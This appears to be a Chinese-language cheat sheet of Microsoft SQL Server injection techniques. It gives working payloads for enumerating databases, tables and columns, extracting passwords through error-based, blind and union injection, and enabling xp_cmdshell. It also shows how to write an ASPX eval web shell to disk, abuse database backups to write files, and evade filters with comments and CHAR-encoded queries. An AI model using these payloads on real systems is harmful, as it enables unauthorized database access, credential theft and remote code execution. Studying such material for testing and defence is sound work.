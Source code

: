 ## mssql 注入

查询数据库名称
```
select name from master.dbo.sysdatabases;
```
`master、model、msdb、tempdb`是mssql的默认数据库

查询用户权限
```
select IS_MEMBER('db_owner');
```
服务器角色包含：`sysadmin、serveradmin、securityadmin、processadmin、setupadmin、bulkadmin、diskadmin、dbcreator、public`
数据库角色包含：`db_owner、db_securityadmin、db_accessadmin、db_backupoperator、db_ddladmin、db_datawriter、db_datareader、db_denydatewriter、db_denydatareader`

查询数据库版本
```
select @@version;
```

查询当前数据库名
```
select db_name();
```

查询服务器名称
```
select HOST_NAME();
select @@SERVERNAME;
```

爆当前数据库
```
select * from xxx where id=1 and db_name()>0;
select * from xxx where id=1 and db_name()>'e';
```

查询数据库下的所有表
```
select * from INFORMATION_SCHEMA.TABLES;
```

爆表名，xx代表表名。`1=`可能出现数据类型转换错误，形成报错注入。或用对应类型的`'e'<`来判断名称
```
select * from xxx where id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name='xx');
select * from xxx where id=1 and 'e'<(select top 1 name from sysobjects where xtype='u' and name='xx');

select * from xxx where id=1 and 'e'<(select top 1 TABLE_NAME from INFORMATION_SCHEMA.TABLES);
```

爆列名
```
select * from xxx where id=1 and 'b'>(select top 1 name from syscolumns where id=(select id from sysobjects where name='xx') and name<>'id');
```

爆数据
```
select * from xxx where id=1 and 1=(select top 1 password from xx);
select * from xxx where id=1 and 'C'<(select top 1 password from xx);
```

报错注入
```
select * from xxx where id=1 (select CAST(USER as int));
select * from xxx where id=1 (select convert(int,USER));
select * from xxx where id=1 select 1 union (select CAST(USER as int))
// 用declare定义变量并执行，还可对变量进行HEX和ASCII编码
select * from xxx where id=1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a);
// ASCII编码
select * from HrmResourceManager where id=1;declare @a nvarchar(2000) set @a=CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@a);
```

盲注
```
// 布尔盲注
select * from xxx where id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1))>=109;
// 时间盲注
select * from xxx where id=1;if(ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5';
```

联合注入
```
// null的数量需要与xxx表的列数相同
select * from xxx where id=1 union select null,null,null;
```

列目录
```
execute master..xp_dirtree 'c:' // 列出C盘下的所有文件和目录
execute master..xp_dirtree 'c:',1  // 只列出C文件夹
```

写shell
```
// 创建文件夹表
select * from xxx where id=1;CREATE TABLE testtemp (dir varchar(8000),num int,num1 int);
// 将C盘的文件夹名称写入数据表
select * from xxx where id=1;insert into testtemp(dir,num,num1) execute master..xp_dirtree 'C:',1,1;
// 创建cmd执行表
select * from xxx where id=1;CREATE TABLE cmdtemp (dir varchar(8000));
// 将cmd搜索结果写入表
select * from xxx where id=1;insert into cmdtemp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (lululu.jsp) do @echo %i';
// 如果master..xp_cmdshell未开启,用如下命令开启
EXEC sp_configure 'show advanced options', 1;  //允许更改参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;  //开启xp_cmdshell
RECONFIGURE;

// 指定目录写文件
select * from xxx where id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\lululu.aspx' ;
```

差异备份
```
//这一步很可能出现拒绝访问错误，说明没有文件夹操作权限。只有给予该文件夹读写权限才能执行
backup database xxxx to disk='c:\Users\xxxxx'
backup database xxxx to disk='c:\Users\xxxxx' WITH DIFFERENTIAL,FORMAT;--

// 日志备份
alter database ecology set RECOVERY FULL; //先将数据库恢复模式设为完整模式
backup log ecology to disk='C:\Users\xxx\log.bak' with init
```

特殊符号
```
注释: /* */  --
空白符号: /**/
加号: %2b （查询多条数据）
```

mssql对象类型
```
AF = 聚合函数 (CLR)
C = CHECK 约束
D = 默认或默认约束
F = FOREIGN KEY 约束
L = 对数
FN = 标量函数
FS = 装配 (CLR) 标量函数
FT = 装配(CLR) 表值函数
IF = 内联表函数
IT = 内部表
P = 存储过程
PC = 程序集 (CLR) 存储过程
PK = 主键约束（类型为 K）
RF = 复制过滤器存储过程
S =系统表
SN = 同义词
SO = 序列
SQ = 服务队列
TA = 装配 (CLR) DML 触发器
TF = 表函数
TR = SQL DML 触发器
TT = 表类型
U = 用户表
UQ = UNIQUE 约束（类型为 K）
V = 视图
X = 扩展存储过程
```
